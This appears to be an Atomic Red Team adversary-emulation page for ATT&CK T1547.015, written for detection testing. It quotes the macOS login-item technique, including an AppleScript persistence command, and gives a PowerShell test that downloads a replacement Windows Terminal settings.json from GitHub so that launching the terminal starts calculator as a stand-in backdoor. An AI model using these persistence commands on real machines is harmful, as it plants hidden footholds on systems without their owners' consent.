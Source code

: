 # T1547.015 - Login Items
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/015)
<blockquote>Adversaries may add login items to execute upon user login to gain persistence or escalate privileges. Login items are applications, documents, folders, or server connections that are automatically launched when a user logs in.(Citation: Open Login Items Apple) Login items can be added via a shared file list or Service Management Framework.(Citation: Adding Login Items) Shared file list login items can be set using scripting languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002), whereas the Service Management Framework uses the API call <code>SMLoginItemSetEnabled</code>.

Login items installed using the Service Management Framework leverage <code>launchd</code>, are not visible in the System Preferences, and can only be removed by the application that created them.(Citation: Adding Login Items)(Citation: SMLoginItemSetEnabled Schroeder 2013) Login items created using a shared file list are visible in System Preferences, can hide the application when it launches, and are executed through LaunchServices, not launchd, to open applications, documents, or URLs without using Finder.(Citation: Launch Services Apple Developer) Users and applications use login items to configure their user environment to launch commonly used services or applications, such as email, chat, and music applications.

Adversaries can utilize [AppleScript](https://attack.mitre.org/techniques/T1059/002) and [Native API](https://attack.mitre.org/techniques/T1106) calls to create a login item to spawn malicious executables.(Citation: ELC Running at startup) Prior to version 10.5 on macOS, adversaries can add login items by using [AppleScript](https://attack.mitre.org/techniques/T1059/002) to send an Apple events to the “System Events” process, which has an AppleScript dictionary for manipulating login items.(Citation: Login Items AE) Adversaries can use a command such as <code>tell application “System Events” to make login item at end with properties /path/to/executable</code>.(Citation: Startup Items Eclectic)(Citation: hexed osx.dok analysis 2019)(Citation: Add List Remove Login Items Apple Script) This command adds the path of the malicious executable to the login item file list located in <code>~/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm</code>.(Citation: Startup Items Eclectic) Adversaries can also use login items to launch executables that can be used to control the victim system remotely or as a means to gain privilege escalation by prompting for user credentials.(Citation: objsee mac malware 2017)(Citation: CheckPoint Dok)(Citation: objsee netwire backdoor 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence by modifying Windows Terminal profile](#atomic-test-1---persistence-by-modifying-windows-terminal-profile)


<br/>

## Atomic Test #1 - Persistence by modifying Windows Terminal profile
Modify Windows Terminal settings.json file to gain persistence. [Twitter Post](https://twitter.com/nas_bench/status/1550836225652686848)

**Supported Platforms:** Windows


**auto_generated_guid:** ec5d76ef-82fe-48da-b931-bdb25a62bc65





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calculator | Test program used to imitate a maliciously called program. | String | calculator.exe|
| settings_json_def | Default file for Windows Terminal to replace the default profile with a backdoor to call another program. | Path | ~&#92;AppData&#92;Local&#92;Packages&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;LocalState&#92;settings.json|
| settings_json_tmp | Temp file for Windows Terminal. | Path | ~&#92;AppData&#92;Local&#92;Temp&#92;settings.json|
| wt_exe | Windows Terminal executable. | Path | ~&#92;AppData&#92;Local&#92;Microsoft&#92;WindowsApps&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;wt.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
mv #{settings_json_def} #{settings_json_tmp}
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.015/src/settings.json?raw=true" -OutFile "#{settings_json_def}"
wt.exe
```

#### Cleanup Commands:
```powershell
mv -Force #{settings_json_tmp} #{settings_json_def}
taskkill /F /IM "#{calculator}" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Terminal must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path #{wt_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$(rm ~\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\StoreEdgeFD\installed.db -ErrorAction Ignore; Write-Output ""; $?) -and $(winget install --id=Microsoft.WindowsTerminal)
```




<br/>
